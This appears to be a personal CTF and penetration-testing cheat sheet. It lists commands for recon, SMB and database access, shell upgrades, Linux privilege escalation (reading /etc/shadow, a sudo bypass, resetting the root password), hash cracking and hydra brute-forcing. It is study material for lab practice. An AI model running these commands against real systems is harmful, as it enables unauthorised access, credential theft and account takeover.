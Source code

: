 # step by step

## osint
https://dnsdumpster.com/
https://web.archive.org/
https://dorksearch.com/
https://www.shodan.io/
https://haveibeenpwned.com

## recon
ping {ip}
whois {domain}
nslookup {ip}
dig {ip}
dnsrecon -d {domain} -a
host {domain}

## target scanning
sudo nmap --open #-p- for full port scan #-sV version detection #-sC default scripts #-Pn host discovery

subfinder -d {domain}
dnsgen urls.lst | httprobe
httpx
whatweb

## remote exploits
### http/https
if seeing any url with a number change the number

### ftp
ftp anonymous@{IP}

### smb
smbmap -H {IP} #list shares on target with anomouse
smbmap -H {IP} -u {username} #guest/administrator
smbclient -L={IP} -U Administrator #try a login
smbclient //{IP}/{the\ share\ name} #connect to specifiec share
RECURSE ON
PROMPT OFF
cd {dir}
mget /Policies/*/MACHINE/Preferences/Groups/Groups.xml
mget *
smbget -R smb://{ip}/anonymous

### psql
psql -U {USER} -h {IP} -p 5432
\l #list databases
\c {name} #connect to a database
\dt #list tables
select * from {table} #show table content

### finding github source
when finding the source code,
compare the changes,
sometimes in this there might be found the difference

## getting connections
ssh -t {user}@{ip} /bin/sh
xfreerdp /v:{IP} /u:{USER} /p:{PASSWORD}
telnet {ip} {port}

### basic shell -> shell++
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
script /dev/null -c bash
```
ctrl+Z and then
```
stty raw -echo && fg
```

### recon from a shell
whoami
id #default groups: audio video plugdev cdrom dip floppy netdev
groups
uname -a
cat /etc/sudoers
cat */.bash_history
cat */.bashrc
cat /etc/sudoers
cat /etc/sudoers.d
cat /etc/crontab
cat /var/spool/*
cat /etc/systemd/system
cat */.ssh/
cat /opt/
cat /etc/passwd
cat /etc/shadow

ss -tln #identify localports
ss -tla #identify name

find / -user root -perm /4000 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #find tools that have an suid, look these up on https://gtfobins.github.io/
chmod -s {found_binary} # to disallow others from abusing it

pspy32 #spy tool, open it on a host, login on second terminal, and maybe gain stuff
echo -e "hackerpassword\nhackerpassword" | passwd root

grep -r "THM{" / >> temp_flags.txt 2>/dev/null

nano /etc/passwd #shells -> /sbin/nologin

### sudo -L
https://gtfobins.github.io/#+sudo
sudo -u#-1 /bin/bash

### ls *.ssh/ 
look for keys and try to login with them to other users
ssh {user}@{ip} -i {keyfile}

ssh2john {keyfile}>hash

#### pgp key decryption
gpg2john {file}.asc > hash
john --format=gpg --wordlist=/usr/share/wordlist/rockyou.txt hash
gpg --import {file}.asc
gpg --decrypt {file}.gpg

### windows
cd C:\Program Files (x86)
dir

Get-ExecutionPolicy
Set-ExecutionPolicy -ExecutionPolicy Bypass

PrivescCheck.ps1

## cracking hashes
zip2john file.zip>{hashfile}
john {hashfile}
john {hashfile} --show

hashcat -a 0 -m 20 {hashfile} /usr/share/wordlists/rockyou.txt

## brute forcing
hydra -L users.txt -P pass.txt {IP} ssh
hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV {ip} ftp

gobuster dir --url {ip} --wordlist /usr/share/wordlists/dirb/big.txt
gobuster dns -d {domain} --wordlist /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt

feroxbuster -u {ip}

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://{domain}/ -H "HOST:FUZZ.{domain}" -fw 1 #vhost
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://{domain} -H 'Host: FUZZ.{domain}' -fw 4 -t 100
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://{domain} -H 'Host: http://{domain}/FFUZ' -ic -t 100


